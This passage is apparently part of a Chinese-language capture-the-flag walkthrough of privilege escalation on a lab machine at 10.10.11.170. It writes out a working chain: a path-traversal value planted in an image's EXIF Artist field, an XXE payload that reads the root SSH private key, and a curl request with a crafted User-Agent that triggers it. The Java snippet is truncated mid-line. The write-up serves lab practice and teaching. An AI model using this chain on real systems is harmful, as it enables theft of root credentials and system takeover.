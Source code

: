 
我们可以在“Artist”字段中注入 xml 所在的路径，然后获取我们想要的信息

我们随便选取一张图片，设置exif信息，然后将图片移动到靶机里

![在这里插入图片描述](https://img-blog.csdnimg.cn/a0998bb5ec054bceac849ea4fd524f04.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/480809e76e594df9837c281d34ce2f58.jpeg)
```
exiftool -Artist="../home/woodenk/privesc" gato.jpg
scp gato.jpg woodenk@10.10.11.170:.
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/296647cc128a4424b8d8d4d3061f7eb6.png)

接下来，我们将在当前用户目录中创建一个xml文件，获取root私钥


```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/gato.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0fdf3e8a845c44b3834673dd4ea48943.png)


```
public static Map parseLog(String line) {
    String[] strings = line.split(
    Map map = new HashMap<>();
    map.put("status_code", Integer.parseInt(strings[
    map.put("ip", strings[1]);
    map.put("user_agent", strings[2]);
    map.put("uri", strings[3]);
    return map;
}
```
然后要设置User-Agent头发出curl请求
```
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fa2906b0d23548edabc6cd65b116150b.png)

下载程序导出的xml文件，触发xxe

回到靶机里，查看文件，可以发现root的私钥

![在这里插入图片描述](https://img-blog.csdnimg.cn/1ea71d60fb8942df8f7d1010009aa3ca.png)
